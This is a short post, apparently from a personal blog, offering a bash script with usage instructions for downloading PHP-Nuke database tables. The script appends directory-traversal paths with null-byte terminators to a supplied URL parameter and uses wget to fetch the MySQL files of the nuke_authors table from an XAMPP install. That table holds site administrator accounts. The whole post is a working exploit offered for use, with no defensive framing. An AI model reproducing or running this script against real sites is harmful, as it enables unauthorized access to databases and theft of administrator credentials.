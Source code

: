 ```yaml
---
title: Download PHP Nuke database tables
date: 2017-06-29 05:38:33
---
```


### A simple script to help download php nuke database tables
**Usage ./filename http://someurl.com/folder-structure/filename.php?params=**
```bash
#!/bin/bash

if [[ $# -eq 0 ]] ; then
    echo '[X] Usage ./filename http://someurl.com/folder-structure/filename.php?params='
    exit 0
fi

urls=(
"${1}..\..\..\..\..\..\..\apachefriends\xampp\mysql\data\nuke\nuke_authors.MYI%00"
"${1}..\..\..\..\..\..\..\apachefriends\xampp\mysql\data\nuke\nuke_authors.MYD%00"
"${1}..\..\..\..\..\..\..\apachefriends\xampp\mysql\data\nuke\nuke_authors.frm%00")

filenames=('nuke_authors.MYI' 'nuke_authors.MYD' 'nuke_authors.frm')
for (( i = 0; i < ${#urls[@]}; ++i )); do
    wget "${urls[$i]}" -O "${filenames[$i]}"
done

```

